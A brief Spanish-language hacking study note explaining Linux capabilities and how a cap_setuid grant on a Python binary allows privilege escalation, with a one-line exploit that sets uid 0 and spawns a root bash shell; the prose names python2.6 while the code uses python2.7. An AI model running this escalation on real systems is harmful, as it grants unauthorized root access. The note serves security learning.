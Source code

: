 ```yaml
---
{"dg-publish":true,"permalink":"/hacking/basico/privilegios-especiales-capabilities/","dgPassFrontmatter":true}
---
```



---------------

## ¿Qué son las Capabilities?

En sí, las [Capabilities](https://book.hacktricks.wiki/es/linux-hardening/privilege-escalation/linux-capabilities.html?highlight=capabilities#capability-sets) son una forma de fragmentar los privilegios del ***super-usuario*** (`root`) en un conjunto más granular de permisos. Permiten a los procesos poder realizar acciones privilegiadas sin necesidad de ejecutar todo el proceso con privilegios de `root`.

Debido a esto, los ciber-delincuentes se aprovechan para realizar una explotación.

##### Ejemplo de explotación:
En el siguiente ejemplo, el binario`/usr/bin/python2.6`se considera vulnerable a privesc:
```python title:bash_scripting.bash
setcap cap_setuid+ep /usr/bin/python2.7
/usr/bin/python2.7 = cap_setuid+ep

# Exploit
/usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash");'
```



